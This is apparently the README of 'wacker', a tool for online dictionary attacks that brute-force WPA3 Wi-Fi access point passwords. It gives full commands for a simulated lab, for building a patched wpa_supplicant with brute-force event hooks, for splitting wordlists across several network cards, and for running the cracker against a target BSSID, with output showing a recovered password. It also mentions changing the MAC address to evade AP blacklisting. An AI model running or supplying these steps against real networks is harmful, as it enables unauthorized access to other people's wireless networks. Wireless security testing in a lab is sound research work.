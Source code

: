 # Overview
A set of scripts to help perform an online dictionary attack against a WPA3 access point. Wacker leverages the wpa_supplicant control interface to control the operations of the supplicant daemon and to get status information and event notifications ultimately helping speedup connection attempts during brute force attempts.

# Find a real AP to use
More to come on this.... wacker is still under development.

# Virtual Wifi Arena
Setup a local environment using mac80211_hwsim (details below) or use the VMs provided by the RF Hackers Sanctuary (highly recommended). Testing was done almost exculsively using the simulated mac80211 environments and perform very well.

## Local Simulated Radios
To set up your own software simulator of 802.11 radios simply configure and load the correct mac80211_hwsim module.
```
# modprobe mac80211_hwsim radios=4
# iwconfig
wlan0     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

wlan1     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

wlan2     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

wlan3     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

Choose one of the new interfaces as your WPA3 access point and use the following conf file.
```
# cat hostapd.conf
interface=wlan0
ssid=WCTF_18
driver=nl80211
hw_mode=g
channel=1
logger_syslog=-1
logger_syslog_level=3
wpa=2
wpa_passphrase=Aeromechanics
wpa_key_mgmt=SAE
rsn_pairwise=CCMP
ieee80211w=2
group_mgmt_cipher=AES-128-CMAC
```
And start hostapd with
```
# hostapd -K -dd hostapd.conf
```


# Split a wordlist
If you have intentions of farming out your cracking efforts across a series of nics the provided split.sh script will partition a wordlist for you.
```
# ./split.sh 10 cyberpunk.words 
  50916 cyberpunk.words.aaa
  50916 cyberpunk.words.aab
  50916 cyberpunk.words.aac
  50916 cyberpunk.words.aad
  50916 cyberpunk.words.aae
  50916 cyberpunk.words.aaf
  50916 cyberpunk.words.aag
  50916 cyberpunk.words.aah
  50916 cyberpunk.words.aai
  50907 cyberpunk.words.aaj
 509151 total
```


# Building wpa_supplicant
We're providing our own wpa_supplicant in order to guarantee that certain configurations are set as well as a few mods that need to occur within the source code itself. To build simply do the following. Hopefully in the future this will become a deprecated step.
```
# apt-get install -y pkg-config libnl-3-dev gcc libssl-dev libnl-genl-3-dev
# cd wpa_supplicant-2.9/wpa_supplicant/
# cp defconfig_brute_force .config
# make -j4
# ls -al wpa_supplicant
-rwxr-xr-x 1 root root 13541416 May 31 16:30 wpa_supplicant
```
Of interest are a few new event messages that were added to the wpa supplicant control interface to help further distinguish outcomes the wacker script hooks.
```
/** auth success for our brute force stuff (WPA3) */
#define WPA_EVENT_BRUTE_SUCCESS "CTRL-EVENT-BRUTE-SUCCESS "
/** auth failure for our brute force stuff (WPA3) */
#define WPA_EVENT_BRUTE_FAILURE "CTRL-EVENT-BRUTE-FAILURE "
/** retry for our brute force stuff (WPA3) */
#define WPA_EVENT_BRUTE_RETRY "CTRL-EVENT-BRUTE-RETRY "
```


# Python Requirement
The wacker.py script makes use of a few f-strings among other python3-isms. In the interest of releasing the code sooner this requirement was kept. Here are some generic install instructions for Python3.7 if needed. I know in the future this will become a deprecated step.

```
# apt-get install build-essential tk-dev libncurses5-dev libncursesw5-dev libreadline6-dev libdb5.3-dev libgdbm-dev libsqlite3-dev libssl-dev libbz2-dev libexpat1-dev liblzma-dev zlib1g-dev libffi-dev -y
# wget https://www.python.org/ftp/python/3.7.0/Python-3.7.0.tar.xz
# tar xf Python-3.7.0.tar.xz
# cd Python-3.7.0
# ./configure
# make -j4
# make altinstall
```


# Running wacker
The wacker.py script is intended to perform all the heavy lifting.
```
# ./wacker.py --help
usage: wacker.py [-h] --wordlist WORDLIST --interface INTERFACE --bssid BSSID
                 --ssid SSID --freq FREQ [--start START_WORD] [--debug]

A WPA3 dictionary cracker. Must run as root!

optional arguments:
  -h, --help            show this help message and exit
  --wordlist WORDLIST   wordlist to use
  --interface INTERFACE
                        interface to use
  --bssid BSSID         bssid of the target
  --ssid SSID           the ssid of the WPA3 AP
  --freq FREQ           frequency of the ap
  --start START_WORD    word to start with in the wordlist
  --debug               increase logging output
```
With any luck... running the attack using just one instance...
```
# ./wacker.py --wordlist cyberpunk.words --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan2 --freq 2412
Start time: 21 Aug 2020 07:40:11
Starting wpa_supplicant...
    5795 / 509151   words (1.14%) :  79.41 words/sec : 0.020 hours lapsed :   1.76 hours to exhaust (21 Aug 2020 09:25:49)
Found the password: 'Aeromechanics'

Stop time: 21 Aug 2020 07:41:24
```

Running multiple instances of wacker is easy if you have the spare nics. Don't forget to parition the wordlist as well.
```
# ./wacker.py --wordlist cyberpunk.words.aaa --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan1 --freq 2412
# ./wacker.py --wordlist cyberpunk.words.aab --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan2 --freq 2412
# ./wacker.py --wordlist cyberpunk.words.aac --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan3 --freq 2412
```

# Files of interest
wacker is quite verbose. Files of interest are found under <b>/tmp/wacker/</b>
 - wlan1 : one end of the uds
 - wlan1_client : one end of the uds
 - wlan1.conf : initial wpa_supplicant conf needed
 - wlan1.log : supplicant output (only when using --debug option)
 - wlan1.pid : pid file for the wpa_supplciant instance
 - wlan1_wacker.log : wacker debug output


# Caution
wacker doesn't handle acls put in place by the target WPA3 AP. Meaning, the current code always uses the same MAC address. If the target AP blacklists our MAC address then the script won't differentiate between a true auth failure and our blacklisted MAC being rejected. This will mean that we'll consider the true password as a failure. One way to solve.... we would have to add macchanger to the source at the expense of slowdown.


# Common Problems
* You'll see this when your client driver doesn't support the correct AKM. Typically this manifests itself in the wpa_supplicant output after you try and run the wacker script. The supplicant will essentially hang waiting further instructions with the AKM issue detailed below. The needed AKM is 00-0F-AC:8 (SAE) in the cases of WPA3.

```
u631_3: WPA: AP group 0x10 network profile group 0x18; available group 0x10
u631_3: WPA: using GTK CCMP
u631_3: WPA: AP pairwise 0x10 network profile pairwise 0x18; available pairwise 0x10
u631_3: WPA: using PTK CCMP
u631_3: WPA: AP key_mgmt 0x400 network profile key_mgmt 0x400; available key_mgmt 0x400
u631_3: WPA: Failed to select authenticated key management type
u631_3: WPA: Failed to set WPA key management and encryption suites
```


# TODO
* Create a wrapper script to launch wacker across multiple nics. This will avoid having to instantiate wacker manually for each nic. Have the wrapper also split the wordlist and consolidate the stats.
